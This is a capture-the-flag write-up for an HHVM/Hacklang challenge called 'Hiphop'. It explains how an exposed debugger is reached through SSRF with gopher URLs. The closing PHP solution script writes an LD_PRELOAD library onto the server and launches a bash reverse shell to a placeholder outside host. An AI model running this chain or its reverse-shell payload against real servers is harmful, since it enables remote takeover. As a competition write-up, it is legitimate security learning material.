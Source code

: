 # Hiphop

## Writeup

1. Read `file:///proc/self/cmdline` to get Hiphop command line, found `-dhhvm.debugger.vs_debug_enable=1`.
2. Install Visual Studio Code & HHVM and start debugging.
3. Now you can execute any Hacklang in debug console, try hard to bypass `-dhhvm.server.whitelist_exec=true`.
4. Capture the traffic and convert TCP stream to gopher URL.

## Tips

1. When you debug gopher URL, you may find neither PHP 8 nor curl you installed locally can send gopher requests to HHVM server. That's because some versions of curl/libcurl cannot handle gopher URL with '%00'.
2. Hacklang's `putenv` never call syscall `putenv`, it just put the env into its `g_context`, as is you cannot call `mail()`/`imap_mail()` with `LD_PRELOAD`. I checked almost all functions that will call `execve` and only `proc_open` allows me to set environment variables.
3. Calling `system` or `proc_open` will run `sh -c "YOUR_COMMAND"`, even if command == `""`. So no matter what, `getuid` in `LD_PRELOAD` will always be called.
4. Some syntax of Hacklang cannot be used in debugging context so just `eval()` it.
5. Hacklang is very strange from PHP, its doc is bullshit. What's even more annoys me is that even StackOverflow doesn't have a discussion about it. Good luck to you hackers.

## Solution
```php
<?php

function req ($a) {
  $ch = curl_init();
  curl_setopt($ch, CURLOPT_URL, 'http://124.71.132.232:58080/?url=' . urlencode('gopher://127.0.0.1:8999/_' . urlencode($a)));
  curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
  curl_setopt($ch, CURLOPT_HEADER, 0);
  $output = curl_exec($ch);
  var_dump(curl_error($ch));
  curl_close($ch);
}

$sandbox = '/var/www/html/sandbox/1b5337d0c8ad813197b506146d8d503d/a.so';
$command = 'bash -i >& /dev/tcp/YOURIP/YOURPORT 0>&1';
$ldpreload = './ldpreload/a.so';

req('{"command":"attach","arguments":{"name":"Attach","type":"hhvm","request":"attach","host":"localhost","port":8999,"remoteSiteRoot":"/","localWorkspaceRoot":"/","__configurationTarget":5,"__sessionId":"","sandboxUser":"root"},"type":"request","seq":1}' . "\0" . '{"command":"evaluate","arguments":{"expression":"file_put_contents(\'' . $sandbox . '\',base64_decode(\'' . base64_encode(file_get_contents($ldpreload)) . '\'));eval(base64_decode(\'' . base64_encode('function aa(){$ch=1;proc_open(\'\',dict[],inout $ch,\'\',dict[\'LD_PRELOAD\'=>\'' . $sandbox . '\',\'COMMAND\'=>\'bash -c \\\'' . $command . '\\\'\']);}') . '\'));aa();","context":"repl"},"type":"request","seq":2}' . "\0");
```

## Unintended solution

No one bypassed `hhvm.server.whitelist_exec=true` in my way. All solved teams (7 teams) used an unintended function that did not check the whitelist to bypass it, it's better to check theirs writeup. I will update it here soon.

